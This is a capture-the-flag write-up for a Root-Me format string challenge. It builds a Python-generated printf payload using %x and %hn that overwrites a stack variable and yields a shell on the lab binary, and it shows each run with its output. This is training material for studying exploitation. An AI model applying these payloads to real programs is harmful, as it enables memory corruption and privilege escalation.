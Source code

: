 # ELF x86 - Format string bug basic 2
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-2
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 YES 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch5@challenge02.root-me.org  
Username	app-systeme-ch14
Password	app-systeme-ch14
```
According to the source, the goal is to change the variable _check_ from 0x04030201 to 0xdeadbeef using string format vulnerability.<br>
The vulnerable code is at line 25:
```c
snprintf( fmt, sizeof(fmt), argv[1] );
```
Which enables an attacker to control the **fmt** argument of _snprintf_.<br>
Let's verify it quickly:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 %08x.%08x.%08x.%08x
check at 0xbffffb08
argv[1] = [%08x.%08x.%08x.%08x]
fmt=[b7fdc4a0.00000001.00000000.00000001]
check=0x4030201
```
As one may notice, the **fmt** value is set to the 4 values (which were popped) in the stack.<br><br>
First thing to do is to check what is the offset to the **fmt** value. After few tries, one can find out:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 "AAAA %x %x %x %x %x %x %x %x %x"
check at 0xbffffaf8
argv[1] = [AAAA %x %x %x %x %x %x %x %x %x]
fmt=[AAAA b7fdc4a0 1 0 1 bffffc24 0 0 4030201 41414141]
check=0x4030201
```
That the **fmt** is 8 stack values away. The **check** address is already provided by the program (0xbffffae8 for the first nimble and 0xbffffaea for the second)<br>
Now Let's try to check the first nimble to 0xbeef:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 `python -c "print '\xf8\xfa\xff\xbf' + '%10x' + '%8x'*7 + '%hn' "`
check at 0xbffffaf8
argv[1] = [����%10x%8x%8x%8x%8x%8x%8x%8x%hn]

You are on the right way !
fmt=[����  b7fdc4a0       1       0       1bffffc24       0       0 4030201]
check=0x4030046
```
Let me explain a bit.<br>
First, the **check**'s first nimble address is inserted to format string.<br>
Then, a ```%10x``` is suppose to print the current value in the stack with 10 bytes at least (10 bytes).<br>
Afterward, the seven ```%8x``` are popping the 7 elements left until the **fmt** address (the 8 in ```%8x``` is for controlling the length and avoiding random lengths).<br>
And for last there is the infamous ```%hn```. According to the [printf documentation](http://pubs.opengroup.org/onlinepubs/009695399/functions/snprintf.html) the "n" should write the number of bytes in the output until this point into the given integer.<br><br>

Therefore, because we entered the **check** address it writes 4 bytes of the address, 10 bytes (```%10x```) and 7 8-bytes (```'%8x'*7```). 
Which means the first nimble of **check** should contain 4+10+7*8=14+56=70=0x46 (it fits the **check**'s value).<br><br>

So, inorder to change the first nimble to 0xbeef, one should change the ```%10x``` to ```%48819x```:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 `python -c "print '\xf8\xfa\xff\xbf' + '%48819x' + '%8x'*7 + '%hn' "`
check at 0xbffffaf8
argv[1] = [����%48819x%8x%8x%8x%8x%8x%8x%8x%hn]

You are on the right way !
fmt=[����                                                                                                                           ]
check=0x403beef
```

Now it's time to change the second nimble.<br>
First, we'll enter its address and some junk to the buffer and adjust the ```%48819x``` (to ```%48811x```).
And finally, let's try as before to change the second nimble:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 `python -c "print '\xf8\xfa\xff\xbf' + 'AAAA' + '\xfa\xfa\xff\xbf' + '%48815u' + '%8x'*7 + '%hn' + '%10x' + '%hn'"`
check at 0xbffffae8
argv[1] = [����AAAA����%48815u%8x%8x%8x%8x%8x%8x%8x%hn%10x%hn]
fmt=[����AAAA��������                                                                                                               ]
check=0x46beef
```
For setting the second nimble to 0xdead, we should take 0xdead and subtract from it 8 (first nimble's address and 'AAAA'), 48815 (from ```%48815u```) and 56 (```'%8x'*7```).
So, 57005-8-48815-56 = 8126. Let's try it out:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 `python -c "print '\xf8\xfa\xff\xbf' + 'AAAA' + '\xfa\xfa\xff\xbf' + '%48815u' + '%8x'*7 + '%hn' + '%8126x' + '%hn'"`
check at 0xbffffae8
argv[1] = [����AAAA����%48815u%8x%8x%8x%8x%8x%8x%8x%hn%8126x%hn]
fmt=[����AAAA��������                                                                                                               ]
check=0xdeadbeef
Yeah dude ! You win !
$ id
uid=1214(app-systeme-ch14-cracked) gid=1114(app-systeme-ch14) groups=1114(app-systeme-ch14),100(users)
$ cat .passwd
<censored>
```
